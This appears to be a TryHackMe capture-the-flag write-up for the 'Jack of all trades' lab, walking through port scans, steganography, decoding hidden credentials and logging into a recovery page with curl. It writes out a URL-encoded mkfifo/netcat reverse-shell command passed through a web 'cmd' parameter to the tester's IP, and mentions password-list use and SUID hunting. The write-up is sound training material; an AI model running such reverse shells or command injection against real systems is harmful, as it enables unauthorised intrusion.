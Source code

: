 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-1.png)

This room is also in the category of ctf, but i put it here as i learned a few tricks with curl.

As always, i started with a ports scanning.

```text
nmap -sS -T4 -p- 10.10.153.116
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-07 04:28 EDT
Nmap scan report for 10.10.153.116
Host is up (0.057s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```text

nmap -sV -sC -p22,80 10.10.153.116
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-07 04:30 EDT
Nmap scan report for 10.10.153.116
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Taking a look at the mpre detailed i noticed the services are swaped. Usually the http service listens on port 80, and ssh on 22. I tried accessing the page usig my browser, but i cannot do that, so i used curl to retrieve and send requests.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-2.png)

From the response above, i noticed the stego.jpg image, /recovery.php page which can be used to login, and d base64 encoded string.

The base64 string decodes to:
```text 
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```
The password may be used in the steganography process. I downloaded the stego.jpg image and extracted the message.  

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-3.png)

The message wasn't very useful.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-4.png)

```text
Hehe. Gotcha!

You're on the right path, but wrong image!
```
Let's see what other images are available. The only candidates are header.pg and jackinthebox.jpg.

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-5.png)

I had anough images to chose from and i started with header.jpg.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-6.png)

It seems this was the one .  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-7.png)


The file contains:
```text
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```
I tried login via ssh, but no luck. What remained was to access the recovery.php page.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-8.png)

From base32, hex, rot13 decodes to:
```text
 Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```
The hint points to the wikipedia page of the Stegosauria. The only login form is in the recovery.php and this one i used to gain a reverse shell.

```text
curl -c cookiejar -g -O -J -iL -F "user=jackinthebox" -F "pass=TplFxiSHjY"  http://10.10.153.116:22/recovery.php

HTTP/1.1 302 Found
Date: Mon, 07 Sep 2020 09:25:25 GMT
Server: Apache/2.4.10 (Debian)
Set-Cookie: PHPSESSID=pumre8sr4no1gets9nugd79hr2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84; expires=Wed, 09-Sep-2020 09:25:25 GMT; Max-Age=172800
location: /nnxhweOV/index.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Date: Mon, 07 Sep 2020 09:25:25 GMT
Server: Apache/2.4.10 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 52
Content-Type: text/html; charset=UTF-8

GET me a 'cmd' and I'll run it for you Future-Jack.
```
From the response, i am logged in and need to give a command. 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-9.png)

Based on the response, ineeded to url encode some commands.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-10.png)

```text
curl -c cookiejar -F "user=jackinthebox" -F "pass=TplFxiSHjY" http://10.10.153.116:22/recovery.php -L http://10.10.153.116:22/nnxhweOV/index.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E8%2E5%2E181%201234%20%3E%2Ftmp%2Ff
```
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-11.png)


The file jaks_password_list contains obviously a list of passwords.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-12.png)

I used this list hoping among them was the real one.With the found password i logged into the ssh service.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-13.png)

With the found password i logged into the ssh service.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-14.png)

I hoped to see the user.txt flag, but i only found this image. I downloaded it to my computer using scp. After taking a closer look at the image, i found the flag.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-15.png)

This user can't run sudo, but there may be binaries with suid bit set that can be used to escalate privileges. The command strings can be used to find strings/words in files.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Jack_of_all_trades/images/83-16.png)
